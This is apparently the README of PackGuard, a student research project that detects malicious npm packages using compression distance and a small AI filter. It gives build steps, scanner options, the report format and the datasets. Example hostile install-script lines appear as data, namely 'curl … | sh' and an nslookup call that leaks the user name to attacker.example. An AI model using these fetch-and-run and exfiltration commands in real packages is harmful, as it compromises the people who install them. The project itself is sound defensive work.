

# PackGuard

**Lightweight two-stage detection of malicious npm packages using compression similarity and a small AI filter.**

> ⚠️ **Research project in progress** (ISEF, Computer Science & Software). Results, interfaces and settings may change between versions. No results are reported here until evaluation is complete.

---

## Why PackGuard?

npm is the backbone of modern web development: nearly every website, web app and JavaScript tool is built from packages downloaded through it. Attackers regularly slip malicious packages into the registry, and a single bad package can spread into thousands of projects.

Existing detectors force a trade-off:

- **Rule-based scanners** are lightweight but miss disguised (obfuscated) malware.
- **Machine-learning detectors** catch more but need powerful hardware and constant retraining.

PackGuard tests whether we can have both: accurate detection that runs on an ordinary computer.

## How it works



**Stage 1 – Compression scanner (C).** Malicious code tends to share hidden patterns with known malware, even when disguised. PackGuard measures this with **Normalized Compression Distance (NCD)**: two files that compress much better *together* than *separately* are similar.

```
NCD(x, y) = (C(xy) − min(C(x), C(y))) / max(C(x), C(y))
```

Values near 0 mean very similar; near 1 means unrelated. Each package is scored by its most suspicious file or chunk, with a threshold tuned to catch ~99% of malware.

**Stage 2 – AI false-alarm filter (Python → ONNX).** A pretrained, code-aware model (ModernBERT) reviews **only** the packages flagged by stage 1. A hierarchical design lets it read whole packages, guided by the suspicious regions found in stage 1. The trained model is exported to ONNX, quantized to 8-bit and runs on a standard CPU through the ONNX Runtime C API, inside the same C scanner.

## Repository structure

```
PackGuard/
├── src/                        # C scanner (stage 1; stage 2 ONNX inference planned)
│   ├── main.c                  # Command line: load references once, scan each package
│   ├── scanner.c / .h          # Reference set, cached C(x), parallel NCD scoring
│   ├── prefilter.c / .h        # LZJD digests and inverted index: picks the references worth an NCD
│   ├── compresser.c / .h       # Raw LZMA2 compressed sizes via liblzma
│   ├── chunker.c / .h          # Per-file split: fixed 8 KB windows or content-defined chunks
│   ├── normalise.c / .h        # Normalised JavaScript view and encoded-payload decoding
│   ├── manifest.c / .h         # Install scripts (preinstall, install, postinstall) from package.json
│   ├── report.c / .h           # JSON output per package
│   ├── platform.c / .h         # Threads, directory walk, clock (POSIX and Win32)
│   ├── packguard.manifest      # Windows: UTF-8 code page, long paths
│   └── ai_filter.c / .h        # Stage 2 inference (ONNX Runtime C API), planned
├── training/
│   └── finetune_packguard.py   # Stage 2 fine-tuning (Hugging Face), planned
├── frontend/                   # Rust CLI/TUI wrapper around the C scanner
├── data/v1/malware_js_*.zip    # v1 malware set, 16 encrypted zips, see dataset_index.md
├── data/v2/malware_js_*.zip    # v2 malware set (install scripts, tuned ratio), 16 encrypted zips
├── tests/                      # Test inputs and outputs, one folder per function
├── experiments/v1/             # v1 detailed test: scripts, results, analysis
├── experiments/v2/             # v2 dataset builder and examples-per-family ratio experiment
├── experiments/v3/             # v3 stage-1 accuracy: tiny chunks, boilerplate, script threshold
├── experiments/v4/             # v4 renamed/mangled benchmark: T1-T4 transforms, results
├── experiments/v5/             # v5 two-mode design: known v4c2 mode and new-campaign mode
├── docs/                       # Design notes and stage-1 suggestions
├── scripts/build-windows.ps1   # Native Windows build (zig + static liblzma)
├── Makefile                    # Linux/macOS build
├── Dockerfile                  # Containerised scanner build
└── README.md
```

## Requirements

| Component | Version |
|---|---|
| C compiler | C17: GCC 11+ or Clang 14+ |
| GNU Make | 4.x |
| Windows native build | zig 0.16+, CMake 3.20+, GNU Make (e.g. `winget install zig.zig Kitware.CMake ezwinports.make`) |
| liblzma (xz) | 5.4.x or a recent 5.8.x — **never 5.6.0 or 5.6.1** (CVE-2024-3094 backdoor) |
| ONNX Runtime | 1.20+ (C API, prebuilt release) |
| Python | 3.10+ |
| Python packages | `transformers`, `datasets`, `torch`, `scikit-learn`, `pandas`, `optimum` |
| GPU | Only for training (e.g. free Google Colab T4). Detection runs on CPU. |

## Getting started

### 1. Install a C toolchain and liblzma

```bash
# Linux (Debian/Ubuntu)
sudo apt install build-essential pkg-config liblzma-dev
# macOS
xcode-select --install
brew install xz pkg-config
```

On Windows, either use WSL and follow the Linux commands, or build natively (step 3b).

Check the installed liblzma version is not 5.6.0 or 5.6.1:

```bash
xz --version
```

### 2. Install ONNX Runtime (C API)

Download the prebuilt package for your platform from <https://github.com/microsoft/onnxruntime/releases> (e.g. `onnxruntime-linux-x64-<version>.tgz`) and extract it, e.g. to `/opt/onnxruntime`. On macOS, `brew install onnxruntime` also works.

### 3. Build the scanner

```bash
make ONNXRUNTIME_ROOT=/opt/onnxruntime   # produces build/packguard
make clean                               # removes build output
```

For a single self-contained binary, link liblzma statically (`liblzma.a`); it is small and has no further dependencies. The Makefile already does this.

### 3b. Or build natively on Windows

```powershell
.\scripts\build-windows.ps1          # produces build\packguard.exe
.\scripts\build-windows.ps1 -Clean   # rebuilds liblzma too
```

The script downloads the xz 5.8.3 source, checks its pinned SHA-256 (the release is signed by Lasse Collin, key `3690 C240 CE51 B467 0D30 AD1C 38EE 757D 6918 4620`), builds a static liblzma with zig and links a single `packguard.exe` that uses Win32 threads on every logical processor. It gives byte-identical reports to the Linux build. Malware must still be handled only inside WSL, so on Windows scan only benign code.

### 4. Or build with Docker

```bash
docker build -t packguard .
docker run --rm --network none -v "$PWD/refs:/refs:ro" -v "$PWD/samples:/work:ro" packguard /refs /work/<package>
```

`--network none` and read-only mounts keep samples isolated.

### Run a scan

```bash
build/packguard [--mode known|new] [-j threads] [-p candidates] [-m bytes] [-b 0|1] \
                [-c 0|1|2] [-n 0|1] [-e 0|1] [-t threshold] [-s script_threshold] \
                [-k groups] [-o report.json | -d report_dir] \
                <reference_dir> <package_path>...
```

| Option | Meaning |
|---|---|
| `--mode` | `known` uses the v4c2 views/chunking with JavaScript threshold 0.62 and install-script threshold 0.50; `new` uses raw NCD plus behavioural primitives, no normalised view, at 0.50. Stage 2 filters the false alarms. |
| `-j` | Worker threads, started once per run (default: all logical processors) |
| `-p` | LZJD prefilter: run NCD only on this many most similar reference chunks per chunk (default 256; `0` scores every reference, the exact brute-force mode) |
| `-m` | Leave JavaScript chunks shorter than this many bytes out of the package score (default 256; `0` scores every chunk) |
| `-b` | Drop reference chunks that hold only a compiled module stub (default `1`; `0` keeps every reference chunk) |
| `-c` | Chunking: `0` fixed 8 KB windows, `1` content-defined chunks in both views, `2` content-defined chunks in the normalised view only (default `0`) |
| `-n` | Also score a normalised JavaScript view and report `score_raw`, `score_normalized`, `score_view` and `normalized_match` (default `0`) |
| `-e` | With `-n`, decode base64 and hex payloads before scoring (default `1`) |
| `-t` | Add each chunk's `threshold` and `flagged`, and the package `flagged`, using this threshold for JavaScript and other file chunks |
| `-s` | With `-t`, the threshold for install-script chunks (default 0.45) |
| `-k` | Per chunk, also list the `k` closest reference groups (first folder below `reference_dir`, the code-shape folder in v1) |
| `-o` | Write the report of a single package to a file (default: stdout) |
| `-d` | Write one report per package to `report_dir/<package folder>.json` |

The references are loaded and their C(x) cached once, then every package is scanned in turn, so many packages per run is much faster than one run per package. Byte-identical reference chunks are scored once: v1 has 190,939 chunks but only 69,249 distinct ones, and this never changes a score. Exit status is 0 on success, 1 if any package failed and 2 for a usage error.

**v5 modes.** `--mode known` uses the v4c2 views and chunking (raw + normalised, CDC on the normalised view) with JavaScript threshold 0.62 and install-script threshold 0.50. `--mode new` is the new-campaign path: it scores the raw view, adds an install-script/JavaScript behavioural-primitive flag, and does not load the normalised view, at 0.50. Stage 2 is built and filters false alarms. Full v5 results and the tuning recommendation are in [`experiments/v5/`](experiments/v5/README.md).

**Rust CLI/TUI.** [`frontend/`](frontend/README.md) is a small Rust wrapper. It runs the C scanner with the selected mode, reads the JSON reports, and prints a ranked table; `--tui` opens a simple interactive menu.

```bash
cd frontend
cargo build --release
./target/release/packguard-cli --mode new --refs <reference_dir> --scan-dir <package_dir>
./target/release/packguard-cli --tui --packguard ../build/packguard
```

The C scanner must be built first. On Windows use `packguard.exe` and scan only benign code; malware stays inside WSL. The wrapper does not implement detection itself.

**Install scripts.** Many malicious packages carry their whole attack in `package.json`, as a `preinstall`, `install` or `postinstall` command (`curl … | sh`, `nslookup $(whoami).attacker.example`). The scanner reads the `package.json` at the package root, keeps only those three commands, one per line, and scores that text like any other file (it appears as `package.json` in the report). A `package.json` deeper in the package is skipped, since npm never runs its scripts. Reference sets keep no `package.json`; they store the same text as `install_scripts.txt`, which the scanner reads whole.

**Tiny chunks.** Short JavaScript files are mostly compiled-TypeScript stubs and other boilerplate; they caused half of the benign false alarms in the v2 test. Chunks under `-m` bytes (default 256) are still scored and still appear in `chunks` with their text and match, but they are marked `"ignored": true` and do not set the package score. Install-script chunks are never ignored, whatever their size. If every chunk of a package is an ignored JavaScript chunk, the largest one sets the score and the report adds `"low_confidence": true`, so every package still has a score for stage 2.

**Boilerplate references.** Compiled packages often contain re-export stubs: `"use strict"`, a TypeScript helper, an `__esModule` marker and `__exportStar(require(...), exports)` lines, with no code of their own. Malware packages carry the same stubs, so a benign package that re-exports a library looks similar. `-b` drops reference chunks that contain nothing else (see `is_boilerplate()` in `src/boilerplate.c`); `-b 0` keeps them for ablation.

**Normalised view.** `-n 1` adds a second view for known malware that has been renamed or reformatted. Comments and whitespace are removed, string literals become `S`, numbers become `N`, and identifiers become `I`, while language keywords and common built-ins stay. Long base64 and hex payloads are decoded with `-e 1`, including a whole file that is one encoded payload. The scanner loads a normalised reference set once and scores each JavaScript file against it; the package score is the lower of the raw and normalised scores. An exact normalised hash gives a byte-identical normalised chunk a distance of 0 without running NCD. The report adds `score_raw`, `score_normalized`, `score_view` and `normalized_match`; v3 reports are unchanged without `-n`.

**Content-defined chunking.** `-c 1` cuts large files at boundaries chosen by a gear-style rolling hash (2/8/16 KiB minimum/average/maximum) instead of fixed offsets, so an insertion or deleted block does not shift every later boundary. `-c 2` applies that only to the normalised view; `-c 0` is the fixed 8 KiB/4 KiB windows of v3. On the v4 mangling benchmark, CDC on the raw view lost recall on padded samples, while CDC on the normalised view alone added a small gain; see [`experiments/v4/`](experiments/v4/README.md).

**Prefilter.** Comparing every chunk with all 69,249 v1 chunks by NCD takes about 34 s per small package. The scanner therefore first ranks the references with [LZJD](https://arxiv.org/abs/1708.03346) (Raff and Nicholas, 2017), the Lempel-Ziv Jaccard distance: the set of phrases an LZ compressor would build, compared by a bottom-1024 min-hash. It is the same idea as NCD without running the compressor, and takes milliseconds for all of v1. NCD then runs only on the 256 most similar chunks. On the v1 detailed test this is about 160× faster (0.23 s per package) and gave every malicious package exactly its brute-force score; see [`experiments/v1/`](experiments/v1/README.md).

Comparing a chunk's digest with every reference digest still cost more than the 256 compressions that follow it. So the digests are turned into an inverted index at load time: for each digest value, the references that hold it. A chunk then only touches the references that share at least one value with it (v1 has 60.4 million digest values but only 2.1 million distinct ones). The top 256 are picked without sorting the rest. The similarities and their order are exactly what a full comparison gives.

**Threads.** The worker threads are started once per run and reused (a thread pool). Packages are scanned in batches of 64. When a batch has at least as many chunks as threads, each thread takes whole chunks and scores them on its own, so threads never wait for each other inside a chunk. Smaller batches, such as one small package, split each chunk's 256 candidates across all threads in blocks of 16. Both ways give identical reports. A package's `seconds` is its load time plus the time spent on its chunks.

**Speed on the v1 detailed test** (195 packages, WSL, 4 threads; every report identical to the earlier build):

| Build | Load | Scan | Total | Peak memory |
|---|---|---|---|---|
| 1 MiB dictionary, threads started per pass, full LZJD comparison | 41 s | 67 s | 108 s | 1.28 GB |
| 64 KiB dictionary and thread pool | 33 s | 61 s | 94 s | 1.27 GB |
| plus the inverted LZJD index (current) | 43 s | 25 s | 68 s | 1.74 GB |

The index costs about 10 s at load and raises peak memory while it is built; scanning is 2.7× faster.

### 5. Train the AI filter

```bash
pip install -r training/requirements.txt
python training/finetune_packguard.py
```

## Scanner output format

The scanner writes one JSON file per package, which stage 2 reads:

```json
{
  "package": "example-pkg",
  "version": "1.0.2",
  "score": 0.41,
  "ignored_small_chunks": 1,
  "threshold": 0.19,
  "flagged": false,
  "seconds": 2.31,
  "matched_packages": [
    { "package": "evil@1.0.0", "group": "1a2b3c4d5e6f", "ncd": 0.41, "chunks": 1 }
  ],
  "chunks": [
    { "file": "install.js", "kind": "js", "start": 0, "ncd": 0.41,
      "threshold": 0.19, "flagged": false,
      "match": { "file": "1a2b3c4d5e6f/evil@1.0.0/index.js", "package": "evil@1.0.0", "start": 0 },
      "near": [ { "group": "1a2b3c4d5e6f", "ncd": 0.41 } ],
      "text": "..." },
    { "file": "stub.js", "kind": "js", "start": 0, "ncd": 0.30,
      "threshold": 0.19, "flagged": false, "ignored": true,
      "match": { "file": "1a2b3c4d5e6f/evil@1.0.0/stub.js", "package": "evil@1.0.0", "start": 0 },
      "text": "..." },
    { "file": "package.json", "kind": "install_script", "start": 0, "ncd": 0.52,
      "threshold": 0.45, "flagged": false,
      "match": { "file": "1a2b3c4d5e6f/evil@1.0.0/install_scripts.txt", "package": "evil@1.0.0", "start": 0 },
      "text": "curl -s http://example.invalid/x | sh" }
  ]
}
```

Lower `ncd` = more similar to known malware. `match` is the closest reference chunk and the reference package it belongs to (the second folder below `reference_dir`, `<package>@<version>` in v1). `matched_packages` lists every reference package that was the closest match of at least one non-ignored chunk, with its code-shape group, its lowest NCD and how many chunks matched it, closest first. `threshold` and `flagged` appear only with `-t`, and `near` only with `-k`. With `-n`, the report also writes `score_raw`, `score_normalized`, `score_view` (`raw` or `normalized`) and `normalized_match` (the closest normalised reference chunk), and `score` is the lower of the two views. With `--mode new`, the report adds `primitive_score`, `primitive_flagged` and `primitive_hits`; `flagged` is then the OR of the NCD rule and the primitive rule. `score` is the lowest NCD among the chunks that were not ignored, and `null` when a package has no JavaScript and no install scripts. `flagged` is not `score <= threshold`: it is true when **any** non-ignored chunk is at or below its own threshold, so an install-script chunk is judged against `-s` (default 0.45) and every other chunk against `-t`. A JavaScript chunk shorter than `-m` is still in `chunks` with `"ignored": true`, but does not set `score`, does not appear in `matched_packages` and does not set the package `flagged`; when every chunk is ignored, the largest one sets the score and `"low_confidence": true` appears at the top. `kind` is `js`, `install_script` or `other`. For `package.json`, `text` is its install-script commands, not the whole file. `text` is the chunk as UTF-8, with bytes that are not valid UTF-8 written as U+FFFD.

## Default configuration (v1 and v4)

| Setting | Value |
|---|---|
| Comparison unit | Per file; files > 16 KB split into 8 KB chunks with 4 KB overlap; the root `package.json` as its install-script commands |
| Compressor | Raw LZMA2 (liblzma), preset 6 (extreme off), 64 KiB dictionary (holds a whole reference chunk plus a whole target chunk), `lc = 3` |
| C(xy) | Estimated as C(x) + C(y\|x), with the reference x as an LZMA preset dictionary |
| Prefilter | LZJD (bottom-1024 min-hash of the LZ phrase set); NCD on the 256 most similar reference chunks |
| Reference set | Every distinct reference chunk except compiled module stubs, which are dropped with `-b 1` |
| Package score | Most suspicious file/chunk (minimum NCD), leaving out JavaScript chunks under 256 bytes and marking them `ignored` |
| Install-script threshold | 0.45 with `-t`, against 0.19 for JavaScript and other files |
| v4 views | Raw plus normalised JavaScript (comments/whitespace removed, identifiers `I`, strings `S`, numbers `N`, base64/hex decoded); package score is the lower view |
| v4 chunking | Fixed 8 KB windows for the raw view, content-defined 2/8/16 KiB boundaries for the normalised view (`-c 2`) |
| Stage 1 threshold | Tuned for ~99% malware recall on validation data |
| Stage 2 model | ModernBERT-base, fine-tuned, 8-bit quantized ONNX |

On the v4 mangling benchmark, `-c 2 -n 1 -e 1` raises overall known-family recall from **9.8% to 64.8% at 0.19**, and from 28.7% to **75.2% at 0.30**, while raising benign false alarms from 0% to 2.6% at 0.19. The per-tier table and the CDC ablation are in [`experiments/v4/`](experiments/v4/README.md).

## Datasets

The v1 malware set is in `data/v1/malware_js_0.zip` to `malware_js_f.zip` (encrypted, password `infected`): 5,904 npm packages from the DataDog dataset, stripped to plain `.js` files with no `package.json`. The v2 set is in `data/v2/malware_js_0.zip` to `malware_js_f.zip`: 6,500 packages, one per code shape and newest first, with their install scripts stored as `install_scripts.txt`. See [`dataset_index.md`](dataset_index.md) for how both were built. Sources used:

- [DataDog malicious software packages dataset](https://github.com/DataDog/malicious-software-packages-dataset)
- Backstabber's Knife Collection (Ohm et al., 2020)
- MalwareBench (access on request)
- [OpenSSF malicious-packages](https://github.com/ossf/malicious-packages) (used to confirm live-scan detections)

Benign packages are downloaded from the public npm registry. Near-duplicates are removed and data is **split by publication date** to simulate detecting unseen attacks.

## Evaluation

- **Metrics:** precision, recall, F1, false alarm rate, processing time, memory use
- **Baseline:** GuardDog, evaluated on the same test data
- **Experiments:** compressor (xz vs. zstd vs. PPMd), chunk size (4 / 8 / 16 KB), with vs. without the AI filter
- **v4:** known malware renamed and mangled through T1–T4 transformations, scored against the v1 reference set; see [`experiments/v4/`](experiments/v4/README.md)
- **Live test:** 30-day scan of newly published npm packages, confirmed via npm security takedowns and OpenSSF reports

The first stage 1 measurements, on 195 small packages, are in [`experiments/v1/`](experiments/v1/README.md): known malware and renamed clones are flagged with no benign false alarm, but malware from an unseen family mostly is not, which is the job of stage 2. The v4 benchmark adds the missing renamed/mangled measurement: `-c 2 -n 1 -e 1` raises overall known-family recall from 9.8% to 64.8% at 0.19 and from 28.7% to 75.2% at 0.30, with benign false alarms at 2.6% and 3.4%.

## ⚠️ Safety

This project handles **real, active malware**.

- Never run `npm install` on any sample.
- `data/` holds live malware in encrypted zips (password `infected`): extract them only inside WSL or a virtual machine, and never commit the extracted files.
- Keep other samples in their encrypted archives until needed; extract only inside a virtual machine.
- Malware is read strictly as text; PackGuard never executes package code.
- Suspicious live-scan findings are reported responsibly to npm's security team.

## Team

| Member | Role |
|---|---|
| Mayar | AI filter (Python): fine-tuning, evaluation, graphs |
| Fahad | Compression scanner (C): NCD engine, liblzma integration, live scan |

## License

_To be decided._ Third-party components: liblzma (public domain / 0BSD), ModernBERT (Apache 2.0), ONNX Runtime (MIT).
